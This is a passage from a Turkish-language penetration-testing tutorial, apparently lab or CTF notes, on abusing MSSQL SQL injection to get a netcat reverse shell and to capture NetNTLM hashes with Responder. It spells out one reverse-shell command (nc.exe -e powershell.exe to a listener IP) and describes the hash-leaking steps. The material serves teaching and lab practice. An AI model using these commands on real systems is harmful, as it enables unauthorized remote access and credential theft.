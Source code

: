 ![Pasted image 20241213205624.png](/img/user/resimler/Pasted%20image%2020241213205624.png)

![Pasted image 20241213205632.png](/img/user/resimler/Pasted%20image%2020241213205632.png)

Kodlanmış payload ile, -enc ( kodlanmış ) bayrağı ile birlikte Execution Policy'yi bypass olarak ayarlayarak powershell'e aktarmamız gerekir. Sunucunun çalıştırmasını isteyeceğimiz komut şu şekilde olur:

![Pasted image 20241213205651.png](/img/user/resimler/Pasted%20image%2020241213205651.png)

Komutu çalıştırmadan önce, sunucunun indirmesi için makinemize nc.exe dosyasını indirip barındırmamız gerekiyor. Derlenmiş bir versiyonunu [buradan](https://github.com/int0x33/nc.exe) indirebilirsiniz. Herhangi bir dizine koyun ve ardından aşağıdaki gibi Python ile 80 numaralı portta geçici bir HTTP sunucusu başlatın:

![Pasted image 20241213205724.png](/img/user/resimler/Pasted%20image%2020241213205724.png)

HTTP sunucusu dinlemeye başladığında, nc -nvlp 9999 ile bir netcat dinleyicisi başlatın ve payload'u enjekte edin! Bir reverse ( cmd ) shell elde etmeliyiz.

![Pasted image 20241213205748.png](/img/user/resimler/Pasted%20image%2020241213205748.png)

Not: Eğer powershell kullanmayı tercih ederseniz, elbette cmd nc.exe -nv 192.168.43.164 9999 -e C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe gibi bir komut kullanarak `cmd.exe` yerine `nc.exe`nin çalıştırmasını sağlayabilirsiniz.


### NetNTLM Hash'lerinin Sızdırılması

### Hash'i Yakalamak

Veritabanı yöneticilerinin MSSQL'in ağ paylaşımlarına erişebilmesi için hizmet hesapları oluşturması alışılmadık bir durum değildir. Durum buysa ve bir SQL enjeksiyonu bulduysak, NetNTLM kimlik bilgilerini yakalayabilmeli ve muhtemelen bunları kırabilmeliyiz

Temel olarak, SQL sunucusunu kontrol ettiğimiz bir SMB paylaşımına erişmeye ve kimlik bilgilerini yakalamaya zorlayacağız. Bunu yapmanın birkaç yolu var, bunlardan biri Responder kullanmak. GitHub deposunu local olarak klonlayalım ve klasöre girelim.

![Pasted image 20241213205902.png](/img/user/resimler/Pasted%20image%2020241213205902.png)

Ardından, VPN ağ arayüzünde Responder'ı dinlemeye başlayın. SMB sunucusunun [ON] yazdığından emin olun. Eğer yazmıyorsa, aynı dizindeki Responder.conf dosyasını değiştirin ve SMB = Off satırını SMB = On olarak değiştirin.

![Pasted image 20241213205924.png](/img/user/resimler/Pasted%20image%2020241213205924.png)

Responder hazır ve çalışır durumdayken SQL payload'u üzerinde çalışabiliriz. Çalıştırmak istediğimiz sorgu şudur:

![Pasted image 20241213205945.png](/img/user/resimler/Pasted%20image%2020241213205945.png)

Bu, kimlik doğrulama (NetNTLM hash'ini gönderme) gerektiren myshare SMB paylaşımının içeriğini listelemeye çalışacaktır.
